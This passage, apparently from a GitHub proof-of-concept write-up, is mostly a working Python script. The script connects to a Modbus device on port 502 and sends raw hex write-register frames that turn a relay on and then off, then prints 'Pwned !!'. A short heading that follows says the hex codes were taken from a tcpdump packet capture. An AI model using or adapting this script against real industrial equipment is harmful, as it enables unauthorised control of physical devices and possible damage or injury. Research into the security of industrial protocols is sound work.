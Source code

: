 ```

s = socket.socket()
s.connect(("192.168.7.1", 502))
print ("[+] Turning Relay On")
on = ("000000000006FF0600020f0f")
off = ("000000000006FF0600020f00")
s.sendall((bytes.fromhex(on)))
time.sleep(5)
print ("[+] Turning Relay Off")
s.sendall((bytes.fromhex(off)))
data = s.recv(1024)
print ("[+] Pwned !!")
```

## Evidence shows the structure of the Modbus client request which shows the relevant Hex Codes after examination of a captured TCPDUMP

- Modbus Switch Relay ON

<img src="images/modbus_write_register_capture.png">

- Modbus Switch Relay OFF
